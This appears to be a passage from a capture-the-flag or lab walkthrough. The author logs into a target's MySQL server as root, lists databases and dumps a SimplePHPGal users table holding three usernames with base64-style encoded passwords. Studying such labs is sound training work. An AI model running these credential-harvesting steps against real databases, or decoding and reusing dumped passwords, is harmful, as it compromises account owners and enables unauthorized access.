 Lets connect to the `mysql` service.
```bash
bash-4.2$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 8.0.20 MySQL Community Server - GPL

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql>
```

Looking for credentials stored in database tables.
```bash
mysql>show databases;
+--------------------+
| Database           |
+--------------------+
| SimplePHPGal       |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use SimplePHPGal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------------+
| Tables_in_SimplePHPGal |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----------+----------------------------------------------+
| username | password                                     |
+----------+----------------------------------------------+
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |
+----------+----------------------------------------------+
3 rows in set (0.00 sec)
```
